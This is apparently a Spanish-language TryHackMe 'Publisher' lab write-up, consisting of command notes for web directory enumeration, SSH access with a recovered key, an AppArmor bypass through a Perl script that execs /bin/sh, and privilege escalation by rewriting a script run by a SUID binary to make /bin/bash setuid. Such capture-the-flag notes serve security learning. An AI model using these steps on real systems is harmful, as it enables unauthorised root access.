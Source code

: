 # Publisher - TryHackMe

**IP:** 10.10.37.189

## Enumeración
```bash
gobuster dir -u http://10.10.37.189/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
ffuf -u "http://10.10.37.189/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -mc all -fs 0 -fc 404
```

## Acceso SSH
```bash
chmod 400 id_rsa
ssh -i id_rsa think@publisher
```

## Escalada de Privilegios
- Binario SUID: `/usr/sbin/run_container`
```bash
cd /usr/sbin/
python3 -m http.server 8989
wget http://10.10.37.189:8989/run_container
strings run_container
# -> revela /opt/run_container.sh
```

### Abuso de AppArmor
```bash
echo -e '#!/usr/bin/perl
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```

### Shell sin restricciones
```bash
echo '#!/bin/bash
chmod +s /bin/bash' > /opt/run_container.sh
/usr/sbin/run_container
/bin/bash -p
```
